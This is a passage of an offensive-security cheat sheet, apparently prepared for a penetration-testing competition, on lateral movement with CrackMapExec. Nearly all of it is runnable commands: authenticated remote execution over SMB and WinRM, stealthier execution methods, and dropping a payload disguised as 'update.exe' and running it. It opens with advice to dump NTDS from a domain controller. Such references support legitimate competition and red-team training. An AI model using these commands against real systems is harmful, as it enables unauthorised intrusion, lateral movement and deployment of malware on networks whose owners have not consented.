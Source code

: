 **CPTC Priority:** Focus on `--ntds` dump from DC = instant domain compromise evidence.

---

### Phase 5: Command Execution & Lateral Movement

#### Remote Command Execution
```bash
# Execute single command via SMB
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' -x 'whoami'

# Execute PowerShell command
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' -X '$PSVersionTable'

# Execute command across multiple hosts
crackmapexec smb 10.10.10.0/24 -u 'administrator' -p 'Password123' -x 'systeminfo | findstr /B /C:"OS Name" /C:"OS Version"'

# Execute with PS-EXEC method (classic)
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' --exec-method smbexec -x 'ipconfig'

# Execute via WMI (stealthier)
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' --exec-method wmiexec -x 'whoami'

# Execute via MMC20 (newer, stealthier)
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' --exec-method mmcexec -x 'hostname'
```

#### WinRM Execution (Modern Windows)
```bash
# Check if WinRM is accessible
crackmapexec winrm 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!'

# Execute commands via WinRM
crackmapexec winrm 10.10.10.50 -u 'jsmith' -p 'Summer2024!' -x 'whoami /all'

# Execute PowerShell via WinRM
crackmapexec winrm 10.10.10.50 -u 'jsmith' -p 'Summer2024!' -X 'Get-Service | Where-Object {$_.Status -eq "Running"}'
```

#### Advanced Execution Techniques
```bash
# Drop and execute payload
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' --put-file payload.exe C:\\Windows\\Temp\\update.exe
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' -x 'C:\\Windows\\Temp\\update.exe'

# Execute and retrieve output file
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' -x 'net user /domain > C:\\Windows\\Temp\\users.txt'
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' --get-file 'C$\Windows\Temp\users.txt' ./domain_users.txt
```

---